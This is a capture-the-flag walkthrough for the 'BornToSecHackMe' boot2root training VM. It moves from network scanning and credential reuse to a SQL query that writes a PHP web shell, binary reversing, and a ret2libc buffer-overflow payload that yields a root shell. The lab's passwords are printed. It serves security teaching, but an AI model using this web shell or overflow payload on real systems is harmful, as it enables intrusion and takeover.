

## 1. Find ip of the virtual machine

We first find the ip of our physical machine: 
```bash
$ ifconfig | grep "inet 192"
inet 192.168.1.26 netmask 0xffffff00 broadcast 192.168.1.255
```

We scan local network with **nmap** by using a subnet mask of 24 bits then **nmap** will scan every
address contained between `192.168.1.0` and `192.168.1.255`:
```bash
$ nmap 192.168.1.0/24
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 09:31 CET

...

Nmap scan report for borntosechackme.home (192.168.1.19)
Host is up (0.00020s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

...
```

We get `192.168.1.19`, we can see that **http** port is open.
   
## 2. Explore Webserver

```bash
$ curl 192.168.1.19
<!DOCTYPE html>
<html>
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
	<title>Hack me if you can</title>
	<meta name='description' content='Simple and clean HTML coming soon / under construction page'/>
	<meta name='keywords' content='coming soon, html, html5, css3, css, under construction'/>
	<link rel="stylesheet" href="style.css" type="text/css" media="screen, projection" />
	<link href='http://fonts.googleapis.com/css?family=Coustard' rel='stylesheet' type='text/css'>

</head>
<body>
	<div id="wrapper">
		<h1>Hack me</h1>
		<h2>We're Coming Soon</h2>
		<p>We're wetting our shirts to launch the website.<br />
		In the mean time, you can connect with us trought</p>
		<p><a href="https://fr-fr.facebook.com/42Born2Code"></a> <a href="https://plus.google.com/+42Frborn2code"></a> <a href="https://twitter.com/42born2code"></a></p>
	</div>
</body>
</html>
```

Web version: <br>

We can't do a lot of thing from there, so we use a soft named **dirb** who's a web content scanner:
```bash
$ dirb http://192.168.1.19 ~/Applications/dirb/wordlists/small.txt | grep +
+ http://192.168.1.19/cgi-bin/ (CODE:403|SIZE:288)
+ http://192.168.1.19/forum (CODE:403|SIZE:285)
```

```bash
$ dirb https://192.168.1.19 ~/Applications/dirb/wordlists/small.txt | grep +
+ https://192.168.1.19/cgi-bin/ (CODE:403|SIZE:289)
+ https://192.168.1.19/forum/backup (CODE:403|SIZE:293)
+ https://192.168.1.19/forum/config (CODE:403|SIZE:293)
+ https://192.168.1.19/forum/index (CODE:200|SIZE:4935)
+ https://192.168.1.19/phpmyadmin/libraries (CODE:403|SIZE:301)
+ https://192.168.1.19/phpmyadmin/setup (CODE:401|SIZE:480)
+ https://192.168.1.19/webmail/class (CODE:403|SIZE:294)
+ https://192.168.1.19/webmail/functions (CODE:403|SIZE:298)
+ https://192.168.1.19/webmail/help (CODE:403|SIZE:293)
+ https://192.168.1.19/webmail/include (CODE:403|SIZE:296)
```

We find 4 endpoints:

cgi-bin: <br>  

N.B: We now know that we're on **Apache** webserver

forum: <br>
<br>phpmyadmin: <br>
<br>webmail: <br>

## 3. Forum
There are nothing interesting except for the post **"Probleme login ?"**, it looks like server logs of someone 
trying to connect to **ssh**. <br>

A little below we find what's look like a password: **!q\]Ej?*5K5cy*AJ** <br>

We can't log in to **ssh**, **ftp**, **phpmyadmin** or mail with these credentials, but it works for the forum.


We find a mail **laurie@borntosec.net** that we can use to log to webmail (same password as before). 


## 4. Webmail
We find database credentials (**root** **Fg-'kKXBj87E:aJ$**) in one of the two mails: <br>

It works for phpmyadmin: <br>


## 5. Phpmyadmin

We first tried to reverse hashed password of users but didn't succeed: <br>

Then, we perform a **SQL injection** to install a **backdoor**, we learned 
[here](https://cloudinvent.com/blog/backdoor-webserver-using-mysql-sql-injection/) that this is possible to create
a new file containing whatever text we want: <br>

Then, we create a **php** file containing a system call with request parameter as input by executing
the following command in **SQL console**:<br>
```
SELECT "<form action='/forum/hackedyou4.php' method='GET'>Hacked you :<input type='text' name='hackedyou'><input type=submit value='Hack'><br><br><?php system($_REQUEST['hackedyou']);?>" INTO OUTFILE "/var/www/forum/templates_c/hackedyou4.php"
```

It doesn't work, we have no write right there: <br>

We use **dirb** again to find subdirectories of **"/forum"**:
```bash
$ dirb https://192.168.1.19/forum ~/Applications/dirb/wordlists/common.txt

-----------------
DIRB v2.22
By The Dark Raver
-----------------

...

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.19/forum/ ----
+ https://192.168.1.19/forum/backup (CODE:403|SIZE:293)
+ https://192.168.1.19/forum/config (CODE:403|SIZE:293)
==> DIRECTORY: https://192.168.1.19/forum/images/
==> DIRECTORY: https://192.168.1.19/forum/includes/
+ https://192.168.1.19/forum/index (CODE:200|SIZE:4935)
+ https://192.168.1.19/forum/index.php (CODE:200|SIZE:4935)
==> DIRECTORY: https://192.168.1.19/forum/js/
==> DIRECTORY: https://192.168.1.19/forum/lang/
==> DIRECTORY: https://192.168.1.19/forum/modules/
==> DIRECTORY: https://192.168.1.19/forum/templates_c/
==> DIRECTORY: https://192.168.1.19/forum/themes/
==> DIRECTORY: https://192.168.1.19/forum/update/
```

Every one of them are protected except for **templates_c**: <br>

We can now inject command in request parameter (`whoami`): <br>

We look what's inside **/home** (`ls /home`): <br>

We try to cat everything inside it (`cat /home/*`): <br>

Then, we look what's inside recursively (`ls -r /home`): <br>

We look inside the password file (`cat /home/LOOKATME/password`): <br>

We find a new password for lmezard:
```
G!@M6f4Eatau{sF"
```

The credentials are not working for **ssh**, it only remains **ftp**:
```bash
$ ftp lmezard@192.168.1.19
Connected to 192.168.1.19.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
```
We're in!

## 6. FTP

We download the two files with the `get` command.
```bash
$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```
```bash
$ head fun
ft_fun/0000750000175000001440000000000012575653666011066 5ustar  nnmusersft_fun/C4D03.pcap0000640000175000001440000000003412563172202012421 0ustar  nnmusers}void useless() {

//file259ft_fun/GKGEP.pcap0000640000175000001440000000003412563172202012541 0ustar  nnmusers}void useless() {

//file711ft_fun/A5GPY.pcap0000640000175000001440000000005312563172202012532 0ustar  nnmusers	printf("Hahahaha Got you!!!\n");

//file31ft_fun/K8SEB.pcap0000640000175000001440000000005412563172202012522 0ustar  nnmusers	printf("Hahahaha Got you!!!\n");

//file534ft_fun/PFG98.pcap0000640000175000001440000000003412563172202012501 0ustar  nnmusers}void useless() {
```

The **fun** file is not really readable, to find his extension we use: 
```bash
$ file fun
fun: POSIX tar archive (GNU)
```
We change the extension of **fun** to **tar.gz** and use:
```bash
$ tar xzvf fun.tar.gz 
```
We get a new folder **ft_fun** containing this kind of file: <br> 

We used `cat ft_fun/*` and found the following in one of the file:
```text
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

**getme** 8, 9, 10, 11 and 12 are written in the same file as the **main** (**BJPCP.pcap**):
```
char getme8() { return 'w'; }
char getme9() { return 'n'; }
char getme10() { return 'a'; }
char getme11() { return 'g'; }
char getme12() { return 'e'; }
```


Next, we `grep` all **getme**:
```bash
$ grep "char getme" *
0T16C.pcap:char getme4() {
32O0M.pcap:char getme7() {
331ZU.pcap:char getme1() {
4KAOH.pcap:char getme5() {
91CD0.pcap:char getme6() {
B62N4.pcap:char getme3() {
BJPCP.pcap:char getme8() {
BJPCP.pcap:char getme9() {
BJPCP.pcap:char getme10() {
BJPCP.pcap:char getme11() {
BJPCP.pcap:char getme12()
G7Y8I.pcap:char getme2() {
```

Look inside the first file: 
```bash
$ cat 0T16C.pcap
char getme4() {

//file115%    
```

It gave us an incomplete function, so we are looking for the following file and open it:
```bash
$ ft_fun grep "//file116" * 
7DT5Q.pcap://file116
```
```bash
$ cat 7DT5Q.pcap
        return 'a';

//file116%                         
```

We repeat the above process and obtain **Iheartpwnage** and hash it using **SHA256** as asked in **main**
```
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

## 7. SSH Laurie

We found two files, a text and a binary:
```bash
laurie@BornToSecHackMe:~$ ls
README  bomb
```
```bash
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

```bash
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
P

BOOM!!!
The bomb has blown up.
laurie@BornToSecHackMe:~$
```

We take out the binary from the VM to disasemblate it with a soft named **ghidra**:
```bash
$ scp laurie@192.168.1.19:/home/laurie/bomb ~/boot2root/bomb
```

### Stage 1
```python
void gcc2_compiled.(int32_t arg_8h)
{
    int32_t iVar1;
    
    iVar1 = strings_not_equal(arg_8h, (int32_t)"Public speaking is very easy.");
    if (iVar1 != 0) {
    // WARNING: Subroutine does not return
        explode_bomb();
    }
    return;
}
```

We get:
```
Public speaking is very easy.
```

### Stage 2

With **ghidra**:
```python
// WARNING: Variable defined which should be unmapped: var_28h

void phase_2(int32_t arg_8h)
{
    int32_t iVar1;
    int32_t var_28h;
    int32_t iStack32;
    uint32_t var_18h;
    int32_t aiStack24 [5];
    
    read_six_numbers((char *)arg_8h, (int)&var_18h);
    if (var_18h != 1) {
    // WARNING: Subroutine does not return
        explode_bomb();
    }
    iVar1 = 1;
    do {
        if (aiStack24[iVar1 + -1] != (iVar1 + 1) * (&iStack32)[iVar1]) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        iVar1 = iVar1 + 1;
    } while (iVar1 < 6);
    return;
}
```

Converted in python:
```python
stack = [0, 1]

for i in range(1, 6):
    stack.append((i + 1) * stack[i])

print(' '.join(stack[1:]))
```

We get:
```
1 2 6 24 120 720
```

### Stage 3

With **ghidra**:
```python
 int32_t iVar1;
    unsigned char uVar2;
    int32_t var_18h;
    uint32_t var_ch;
    unsigned char var_5h;
    uint32_t var_4h;
    
    iVar1 = sscanf(s, "%d %c %d", &var_ch, &var_5h, &var_4h);
    if (iVar1 < 3) {
    // WARNING: Subroutine does not return
        explode_bomb();
    }
    // switch table (8 cases) at 0x80497e8
    switch(var_ch) {
    case 0:
        uVar2 = 0x71;
        if (var_4h != 0x309) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        break;
    case 1:
        uVar2 = 0x62;
        if (var_4h != 0xd6) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        break;
    case 2:
        uVar2 = 0x62;
        if (var_4h != 0x2f3) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        break;
    case 3:
        uVar2 = 0x6b;
        if (var_4h != 0xfb) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        break;
    case 4:
        uVar2 = 0x6f;
        if (var_4h != 0xa0) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        break;
    case 5:
        uVar2 = 0x74;
        if (var_4h != 0x1ca) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        break;
    case 6:
        uVar2 = 0x76;
        if (var_4h != 0x30c) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        break;
    case 7:
        uVar2 = 0x62;
        if (var_4h != 0x20c) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        break;
    default:
    // WARNING: Subroutine does not return
        explode_bomb();
    }
    if (uVar2 == var_5h) {
        return;
    }
    // WARNING: Subroutine does not return
    explode_bomb();
}
```

Converted in python:
```python
first, second, third = input().split(' ')

match first:
    case '0':
        c = 'q'
        if third != '777':
            print("boom")
    case '1':
        c = 'b'
        if third != '214':
            print("boom")
    case '2':
        c = 'b'
        if third != '755':
            print("boom")
    case '3':
        c = 'k'
        if third != '251':
            print("boom")
    case '4':
        c = 'o'
        if third != '160':
            print("boom")
    case '5':
        c = 't'
        if third != '458':
            print("boom")
    case '6':
        c = 'v'
        if third != '780':
            print("boom")
    case '7':
        c = 'b'
        if third != '524':
            print("boom")
    case _:
        c = 'x'
        print("boom")

if c != second:
    print("boom")
else:
    print("yay")
```

In the **README**, we saw **b** as hint, then the answer is:
```bash
$ python3 main.py
1 b 214 # or 2 b 755 or 7 b 524
yay
```

### Stage 4

With **ghidra**:
```python
// WARNING: Variable defined which should be unmapped: var_18h

int32_t func4(va_list arg_8h)
{
    int32_t iVar1;
    int32_t iVar2;
    int32_t var_18h;
    
    if ((int32_t)arg_8h < 2) {
        iVar2 = 1;
    } else {
        iVar1 = func4(arg_8h + -1);
        iVar2 = func4(arg_8h + -2);
        iVar2 = iVar2 + iVar1;
    }
    return iVar2;
}
```
```python
void phase_4(char *s)
{
    int32_t iVar1;
    va_list args;
    
    iVar1 = sscanf(s, 0x8049808, &args);
    if ((iVar1 == 1) && (0 < (int32_t)args)) {
        iVar1 = func4(args);
        if (iVar1 != 0x37) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        return;
    }
    // WARNING: Subroutine does not return
    explode_bomb();
}
```

Converted in python:
```python
def func_4(nb):
    return 1 if nb < 2 else func_4(nb - 1) + func_4(nb - 2)


def phase4(nb):
    if -1 < nb < 10:
        return "boom" if func_4(nb) != 55 else "yay"


print([phase4(nb) for nb in range(10)].index("yay"))
```

We get:
```bash
$ python3 main.py
9
```

### Stage 5

With **ghidra**:
```python
// WARNING: Variable defined which should be unmapped: var_18h
// WARNING: Variable defined which should be unmapped: var_2h
// WARNING: Could not reconcile some variable overlaps

void phase_5(int32_t arg_8h)
{
    int32_t iVar1;
    int32_t var_18h;
    int32_t var_8h;
    int32_t var_2h;
    
    iVar1 = string_length(arg_8h);
    if (iVar1 != 6) {
    // WARNING: Subroutine does not return
        explode_bomb();
    }
    iVar1 = 0;
    do {
        *(char *)((int32_t)&var_8h + iVar1) = str.isrveawhobpnutfg[(char)(*(uint8_t *)(iVar1 + arg_8h) & 0xf)];
        iVar1 = iVar1 + 1;
    } while (iVar1 < 6);
    var_2h._0_1_ = 0;
    iVar1 = strings_not_equal((int32_t)&var_8h, (int32_t)"giants");
    if (iVar1 != 0) {
    // WARNING: Subroutine does not return
        explode_bomb();
    }
    return;
}
```

Converted in python:
```python
def phase_5(input):
    converted_input = ''.join([list("isrveawhobpnutfg")[ord(l) & 0xF] for l in input])
    if converted_input != "giants":
        print("boom")
    else:
        print("yay")
```

In the above code, we convert an input by applying a bit mask on every char of it.
To reverse this process, we have to look for the index of every char of the input in the encoded alphabet applied
to the normal alphabet.

`abcdefghijklmnopqrstuvwxyz -> srveawhobpnutfgisrveawhobp`

But we have to be careful, we can see that there are the same letter many times in the encoded string
so there are multiples solutions for the same input.

The index table for every letter:
```
a [4, 20]
b [8, 24]
c []
d []
e [3, 19]
f [13]
g [14]
h [6, 22]
i [15]
j []
k []
l []
m []
n [10]
o [7, 23]
p [9, 25]
q []
r [1, 17]
s [0, 16]
t [12]
u [11]
v [2, 18]
w [5, 21]
x []
y []
z []
```

Get every reversed inputs:
```python
def phase_5(input):
    return ''.join([list("isrveawhobpnutfg")[ord(l) & 0xF] for l in input])


def reverse_phase_5(input):
    alphabet = 'abcdefghijklmnopqrstuvwxyz'
    converted_input = ''.join([list("isrveawhobpnutfg")[ord(l) & 0xf] for l in alphabet])

    indexes_nb = []
    indexes_list = []
    for i in input:
        indexes_list.append([j for j, c in enumerate(converted_input) if c == i])
        indexes_nb.append(len(indexes_list[-1]))

    max_index = max(indexes_nb)
    count_max_index = indexes_nb.count(max_index)
    reversed_input = [[] for _ in range(max_index * count_max_index)]

    for index, nb in zip(indexes_list, indexes_nb):
        for i, r in enumerate(reversed_input):
            r += alphabet[index[0 if nb == 1 or not i % 2 else 1]]

    return [''.join(r) for r in reversed_input]


for r in reverse_phase_5("giants"):
    print(f"{r} => {phase_5(r)}")
```
```bash
$ python3 main.py
opekma => giants
opukmq => giants
opekma => giants
opukmq => giants
```
N.B: Every one of them is valid


### Stage 6:

With **ghidra**:
```python
void phase_6(int32_t arg_8h)
{
    code *pcVar1;
    int32_t iVar2;
    code *pcVar3;
    int32_t iVar4;
    int32_t var_58h;
    int32_t var_3ch;
    int32_t var_38h;
    int32_t var_34h;
    int32_t var_30h;
    code *apcStack48 [5];
    int32_t var_18h;
    int32_t aiStack24 [5];
    
    read_six_numbers((char *)arg_8h, (int)&var_18h);
    iVar4 = 0;
    do {
        if (5 < aiStack24[iVar4 + -1] - 1U) {
            explode_bomb();
        }
        iVar2 = iVar4 + 1;
        if (iVar2 < 6) {
            do {
                if ((&var_18h)[iVar4] == (&var_18h)[iVar2]) {
                    explode_bomb();
                }
                iVar2 = iVar2 + 1;
            } while (iVar2 < 6);
        }
        iVar4 = iVar4 + 1;
    } while (iVar4 < 6);
    iVar4 = 0;
    do {
        pcVar3 = node1;
        iVar2 = 1;
        if (1 < (&var_18h)[iVar4]) {
            do {
                pcVar3 = *(code **)(pcVar3 + 8);
                iVar2 = iVar2 + 1;
            } while (iVar2 < (&var_18h)[iVar4]);
        }
        apcStack48[iVar4 + -1] = pcVar3;
        iVar4 = iVar4 + 1;
    } while (iVar4 < 6);
    iVar4 = 1;
    pcVar3 = (code *)var_30h;
    do {
        pcVar1 = apcStack48[iVar4 + -1];
        *(code **)(pcVar3 + 8) = pcVar1;
        iVar4 = iVar4 + 1;
        pcVar3 = pcVar1;
    } while (iVar4 < 6);
    *(undefined4 *)(pcVar1 + 8) = 0;
    iVar4 = 0;
    do {
        if (*(int32_t *)var_30h < **(int32_t **)(var_30h + 8)) {
    // WARNING: Subroutine does not return
            explode_bomb();
        }
        var_30h = *(int32_t *)(var_30h + 8);
        iVar4 = iVar4 + 1;
    } while (iVar4 < 5);
    return;
}
```

I did understand only the first part of the program, converted in python:
```python
def phase_6_part_1():
    stack = [int(i) for i in input().split(' ')]

    if len(stack) != 6:
        print("boom")

    for i in range(6):
        # deduct this by trying the binary, the original instruction make no sens: 
        # "if (5 < aiStack24[iVar4 + -1] - 1U)" and iVar4 = 0 at first iteration
        if stack[i] > 6 or stack[i] < 1: 
            print("boom")
        for j in range(i + 1, 6):
            if stack[i] == stack[j]:
                print("boom")
```
In the above code, we can see that we need 6 digits with no repetitions in the range [1, 6].<br> 
We already know that the first is 4 (cf. **README**) then we only have 120 combinations (5!), it seems reasonable to bruteforce this one.

We first create a payload:
```text
# payload

Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekma
THIS LINE WILL BE REPLACE
```

And a little script to perform the brut force:
```python
# brutus.py

import os
import itertools

ret = []
possibilities = ["4 " + ' '.join([str(p) for p in pos]) for pos in list(itertools.permutations([1, 2, 3, 5, 6]))]

for pos in possibilities:
    file = open('payload', 'r')
    lines = file.readlines()[:-1]
    file.close()
    file = open('payload', 'w')
    lines.append(pos + "\n")
    file.writelines(lines)
    file.close()
    if os.system("./bomb payload") == 0:
        print(pos)
        break
```

We launch it on the VM:
```bash
$ python brutus.py

...

BOOM!!!
The bomb has blown up.
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...

BOOM!!!
The bomb has blown up.
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...

BOOM!!!
The bomb has blown up.
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Congratulations! You've defused the bomb!
4 2 6 3 1 5
```

Finally, we use the concatenation of the 6 stages to generate the password for **thor's ssh** session.

Possibilities are:
```
Publicspeakingisveryeasy.126241207201b2149opekma426315
Publicspeakingisveryeasy.126241207201b2149opekmq426315
Publicspeakingisveryeasy.126241207201b2149opukma426315
Publicspeakingisveryeasy.126241207201b2149opukmq426315

Publicspeakingisveryeasy.126241207202b7559opekma426315
Publicspeakingisveryeasy.126241207202b7559opekmq426315
Publicspeakingisveryeasy.126241207202b7559opukma426315
Publicspeakingisveryeasy.126241207202b7559opukmq426315

Publicspeakingisveryeasy.126241207207b5249opekma426315
Publicspeakingisveryeasy.126241207207b5249opekmq426315
Publicspeakingisveryeasy.126241207207b5249opukma426315
Publicspeakingisveryeasy.126241207207b5249opukmq426315
```

After trying all of them, I learned that there is an error in the VM, the last stage is **426135**... 

The only working possibility: 
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

N.B: It appears that there is a secret stage, too bad I don't have time for this:
```python
void secret_phase(void)
{
    undefined4 uVar1;
    int32_t iVar2;
    int32_t var_18h;
    
    uVar1 = read_line();
    iVar2 = __strtol_internal(uVar1, 0, 10, 0);
    if (1000 < iVar2 - 1U) {
    // WARNING: Subroutine does not return
        explode_bomb();
    }
    iVar2 = fun7((int32_t)n1, iVar2);
    if (iVar2 != 7) {
    // WARNING: Subroutine does not return
        explode_bomb();
    }
    printf("Wow! You\'ve defused the secret stage!\n");
    phase_defused();
    return;
}
```

## 8. SSH Thor

There are two files in the repo:
```bash
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```
```bash
thor@BornToSecHackMe:~$ head turtle
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
...
```

If we search **turtle informatique** on Google we learn that:
```
Turtle is a graphical module of the Python programming language. 
It is inspired by Logo programming and allows you to move a turtle on the screen.

As we have just seen, one of the great qualities of Python is that it is 
extremely easy to add many features by importing various modules.

To illustrate this, and to have a little fun with objects other than numbers,
we will explore a Python module that allows us to make "turtle graphics", 
that is to say geometric drawings corresponding to the trail left behind by a small virtual "turtle",
whose movements we control on the computer screen using simple instructions.
```

We take out the **turtle** file from the VM:
```bash
$ scp thor@192.168.1.19:/home/thor/turtle ~/boot2root/turtle
```

We import the library (impossible to use it with python3, but ok with python2) and convert the **turtle** file to use it:
```python
import turtle


def get_nb(line):
    return [int(s) for s in line.split() if s.isdigit()][0]


if __name__ == '__main__':
    f = open("turtle", "r")
    file = f.readlines()
    f.close()

    lines = [line if line == "\n" else line.replace("\n", "") for line in file if "Can you" not in line]

    for line in lines:
        if line == "\n":
            continue

        if "gauche" in line:
            turtle.left(get_nb(line))
        elif "droite" in line:
            turtle.right(get_nb(line))
        elif "Avance" in line:
            turtle.forward(get_nb(line))
        elif "Recule":
            turtle.backward(get_nb(line))

    turtle.exitonclick()
```

We get: <br>

It looks like letters, but it's not really clear. 
In the **turtle** file we can see there are new line between instructions,
so we isolate each part by modifying the above code:
```python
...

for line in lines:
    if line == "\n":
        print("")
    elif "gauche" in line:
        print("turtle.left(" + str(get_nb(line)) + ")")
    elif "droite" in line:
        print("turtle.right(" + str(get_nb(line)) + ")")
    elif "Avance" in line:
        print("turtle.forward(" + str(get_nb(line)) + ")")
    elif "Recule":
        print("turtle.backward(" + str(get_nb(line)) + ")")

...
```

We get:
```text
turtle.left(90)
turtle.forward(50)
turtle.forward(1)
turtle.left(1)
turtle.forward(1)
turtle.left(1)
turtle.forward(1)
turtle.left(1)
turtle.forward(1)
turtle.left(1)
turtle.forward(1)
...
```

Who give us: <br>

```text
turtle.forward(210)
turtle.backward(210)
turtle.right(90)
turtle.forward(120)
```

Who give us: <br>

```text
turtle.right(10)
turtle.forward(200)
turtle.right(150)
turtle.forward(200)
turtle.backward(100)
turtle.right(120)
turtle.forward(50)
```

Who give us: <br>

```text
turtle.left(90)
turtle.forward(50)
turtle.forward(1)
turtle.left(1)
turtle.forward(1)
turtle.left(1)
turtle.forward(1)
turtle.left(1)
turtle.forward(1)
turtle.left(1)
turtle.forward(1)
...
```

Who give us: <br>

```text
turtle.forward(100)
turtle.backward(200)
turtle.forward(100)
turtle.right(90)
turtle.forward(100)
turtle.right(90)
turtle.forward(100)
turtle.backward(200)
```

Who give us: <br>

We discover the word **SLASH** and the last line of **turtle** file is **"Can you digest the message? :)"** 
then we use MD5 on it: 
```text
646da671ca01bb5d84dbb5fb2238dc8e
```

## 9. SSH Zaz

We found a binary **exploit_me** and a folder **mail** containing three files:
```bash
zaz@BornToSecHackMe:~$ ls -R
.:
exploit_me  mail

./mail:
INBOX.Drafts  INBOX.Sent  INBOX.Trash
```

The three files are empty and the binary take one argument that it prints as output:
```bash
zaz@BornToSecHackMe:~$ ./exploit_me coucou coucou2
coucou
```

We take out the binary from the VM to disasemblate it with **ghidra**:
```bash
$ scp zaz@192.168.1.19:/home/zaz/exploit_me ~/boot2root/exploit_me
```
```python
bool main(char **argv, char **envp)
{
    undefined auStack144 [140];
    
    if (1 < (int32_t)argv) {
        strcpy(auStack144, envp[1]);
        puts(auStack144);
    }
    return (int32_t)argv < 2;
}
```

Here, we can see that it does a **strcpy** in a stack of 140 char, it might be possible to overflow it.

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 141)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

We're going to perform a [ret2libc](https://beta.hackndo.com/retour-a-la-libc/), we need addresses of **system** and the string **"/bin/sh"**.

First we launch **gdb** and disassemble main to find a random **breakpoint**:
```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp # like this one
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
```

We create the **breakpoint** and run the program:
```bash
(gdb) break *0x080483f4
Breakpoint 1 at 0x80483f4
```
```bash
(gdb) r $(python -c 'print "exploit you")
Starting program: /home/zaz/exploit_me $(python -c 'print "exploit you"')

Breakpoint 1, 0x080483f4 in main ()
```

Then, we can find what we're looking for:
```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
```bash
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
```

Our payload has to be as following:
```text
[buffer][system address][random return address]["/bin/sh" address]
```

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "\x12\x34\x56\x78" + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��4VxX��
```
```bash
$ whoami
root
```